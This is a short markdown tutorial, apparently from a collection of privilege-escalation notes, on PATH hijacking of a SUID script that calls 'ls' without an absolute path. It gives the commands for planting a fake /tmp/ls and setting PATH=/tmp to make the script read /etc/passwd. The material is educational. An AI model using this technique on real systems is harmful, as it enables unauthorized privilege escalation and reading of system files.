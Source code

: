# Relative path to run binary

## Explanation

**Attention** if you want escalate privileges, the vulnerable script needs at least to have suid permission.
- [SUID redhat](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)
.\n
When a program refere to a binary command without giving the absolute path, you can execute your own program instead of the command.
This program show below refer to this venurability. 

```
#!/bin/bash

ls /ect/passwd
```

When bash interpret `ls`, he is trying to find the command located in the `env | grep PATH`.
It try every directory, from letf to right, to check if the executable is located in. If it is, he execute it.
The tricks is to create a new file name "ls" write some code to execute at the emplacement /ect/passwd.
```
#write the command cat inside a ls file located in /tmp
echo cat > /tmp/ls
chmod +x /tmp/ls

#modifie the PATH, to get bash to find and execute your ls file instead of the real one.
PATH=/tmp
```

Now the previous script execute `cat /etc/passwd` instead of `ls /etc/passwd`.
